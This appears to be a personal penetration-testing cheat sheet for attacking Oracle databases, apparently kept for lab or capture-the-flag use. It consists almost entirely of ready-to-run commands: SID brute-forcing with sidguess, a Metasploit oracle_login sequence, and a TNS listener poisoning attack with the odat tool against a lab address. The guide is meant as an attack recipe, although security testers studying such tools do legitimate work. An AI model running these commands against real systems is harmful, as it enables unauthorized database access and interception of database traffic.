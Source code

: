 # Oracle DBs

## Table of Contents

## sidguess

```
sidguess -i X.X.X.X -d ~/wordlist/alpha5
```

## oracle_login

```
msfconsole
use auxiliary/admin/oracle/oracle_login
set SID xe
set rhost X.X.X.X
exploit
```

## odat

* gitlab clone: `https://gitlab.com/nmatt0/odat`
* improved Dockerfile: XXX

```
sudo docker build -t odat .
sudo docker run -i -t odat
# TNSPOISON
sudo docker run -i -t -p1522:1522 odat
```

### TNSPOISON via odat

```
./odat.py  tnspoison   -s 10.10.10.82 -d xe --poison
```
